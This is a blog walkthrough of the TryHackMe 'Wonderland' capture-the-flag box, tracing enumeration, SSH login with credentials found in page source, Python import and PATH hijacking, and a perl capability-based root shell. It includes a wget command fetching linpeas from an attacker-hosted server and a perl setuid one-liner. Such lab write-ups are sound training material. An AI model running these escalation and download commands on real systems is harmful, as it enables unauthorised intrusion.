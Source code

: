 ```yaml
---
layout: post
title: "Wonderland - TryHackMe"
date: 2020-07-24
ctf: true
excerpt: "Walkthrough for Wonderland on TryHackme"
tags: [Wonderland, TryHackMe, privilege escalation, website enumeration]
comments: false
---
```

Wonderland is a medium difficulty box on [TryHackMe](https://www.tryhackme.com). Below are the steps taken to fully compromise this box.

First, let's run **threader3000** to see what ports are open.

![Wonderland threader3000](/assets/img/Wonderland1.png)

This shows that two ports are open, 22 and 80. Let's run **nmap -A -p 22,80 [machine ip]** and see what information we are able to enumerate from this scan.

![Wonderland nmap](/assets/img/Wonderland2.png)

It appears that Goland is used as the web server. Visiting the website we see a picture of a white rabbit.

![Wonderland website](/assets/img/Wonderland3.png)

However, there is nothing in the source code to see. Let's run **gobuster dir -u http://[machine ip] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50** and see if we are able to locate any other directories.

![Wonderland gobuster 1](/assets/img/Wonderland4.png)

gobuster returned a couple of results to review. the **/poem** subdirectory just had the poem, The Jabberwocky on it. **/r** told you to keep on going.

![Wonderland /r](/assets/img/Wonderland5.png)

At this point, I ran **gobuster dir -u http://[machine ip]/r/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50**, and it returned a subdirectory of **/a**

![Wonderland gobuster2](/assets/img/Wonderland6.png)

At this point, I remember it stated to follow the White Rabbit, and since /r/a were the beginning of rabbit, I decided to try going to **http://[machine ip]/r/a/b/b/i/t** This leads to a page telling you to enter wonderland, but nothing is clickable on the page.

![Wonderland /r/a/b/b/i/t](/assets/img/Wonderland7.png)

I decided to take a look at the source code for the page, and it appears that there were potentially a set of hidden credentials that might be useable to SSH into the server.



![Wonderland alice credentials](/assets/img/Wonderland8.png)

Let's try to ssh into the victim with **ssh alice@[machine ip]**.

![Wonderland alice ssh](/assets/img/Wonderland9.png)

Success! We were able to connect via ssh as alice. Let's take a look around. **ls -al** shows that root.txt is in this folder, but we cannot read it. Running **python3 walrus_and_the_carpenter.py** just returns 10 random lines of text from the script.

![Wonderland alice home directory](/assets/img/Wonderland10.png)

Since root.txt is in the user folder, let's see if the user flag is in the root folder with **cat /root/user.txt**. We've found the user flag!

![Wonderland user.txt](/assets/img/Wonderland11.png)

Let's run **sudo -l** and see if alice can run something as a different user. We can see that she can run python 3.6 as another user, rabbit.

![Wonderland alice sudo -l](/assets/img/Wonderland12.png)

It appears that we can open python 3.6 as rabbit by running the walrus_and_the_carpenter.py script. Let's take a look at that script first.

![Wonderland walrus_and_the_carpenter.py](/assets/img/Wonderland13.png)

With python, if you name a file with the same name as something that is imported in the same directory, it will import that file instead of the module. Let's create a script file with **nano random.py** and put in the code below.

![Wonderland random.py](/assets/img/Wonderland14.png)

Save this file and then run **sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py**. You should now have a shell as rabbit.

![Wonderland rabbit](/assets/img/Wonderland15.png)

I attempted to run **sudo -l** as rabbit, but we do not have this user's password to see what permissions they might potentially have. I navigated to rabbit's home folder with **cd /home/rabbit** and ran **ls -al** to list the directory's contents.

![Wonderland rabbit home directory](/assets/img/Wonderland16.png)

It appears that there is a SUID file in this folder. Let's run it and see what happens.

![Wonderland teaParty](/assets/img/Wonderland17.png)

At this point you can enter whatever you would like, and the program crashes. It also appears to display some text with time an hour ahead of the current time. Since we likely do not have any tools on this machine for analyzing the binary, let's run **nano teaParty** to see if we can find anything useful in the file. We can see that the **date** binary is called without an absolute path, let's use that to our advantage.

![Wonderland nano teaParty](/assets/img/Wonderland18.png)

Let's add /tmp to rabbit's $PATH variable with **export PATH="/tmp:$PATH"**. This will put /tmp as the first folder that is looked at for binaries that do not have an absolute path defined. 

![Wonderland $PATH](/assets/img/Wonderland19.png)

Next, run **cd /tmp** followed by **nano date**. Put in the two lines of codes below which can be used to launch a bash shell. 

![Wonderland /tmp/date bash shell](/assets/img/Wonderland20.png)

Save and exit nano, and then run **cd /home/rabbit**, and run **chmod +x /tmp/date** to make the date file executable. Now, execute **./teaParty**. This should give you a shell as hatter!

![Wonderland hatter shell access](/assets/img/Wonderland21.png)

Next, let's navigate to hatter's home directory with **cd /home/hatter** and run **ls -al**. There is a **password.txt** file there. Let's run **cat password.txt**.

![Wonderland hatter password.txt](/assets/img/Wonderland22.png)

In another terminal window on your attacker pc, run **ssh hatter@[machine ip] ** and use the password you just uncovered. You should be able to connect as hatter.

![Wonderland hatter ssh](/assets/img/Wonderland23.png)

hatter is not able to run **sudo -l**, so I next decided to enumerate with linpeas. On my attacker computer, I ran **python3 -m http.server** to spin up a temporary http server.

![Wonderland python3 http server](/assets/img/Wonderland24.png)

Next, I ran **wget http://[attacker ip]:8000/linpeas.sh** to download it locally onto the victim computer. I then ran **chmod +x linpeas.sh** to make it executable followed by **./linpeas.sh**

![Wonderland linpeas](/assets/img/Wonderland25.png)

In the middle of enumeration, it shows that perl has the **cap_setuid+ep** capability. This can be used to gain a root shell. Let's take a look at [GTFOBins](https://gtfobins.github.io/) to find a way to escalate to root. It appears you can run **perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'** to gain a root shell. Let's give it a try.

![Wonderland root shell](/assets/img/Wonderland27.png)

Awesome, now we just need to run **cat /home/alice/root.txt** to get the root flag!

![Wonderland root.txt](/assets/img/Wonderland28.png)

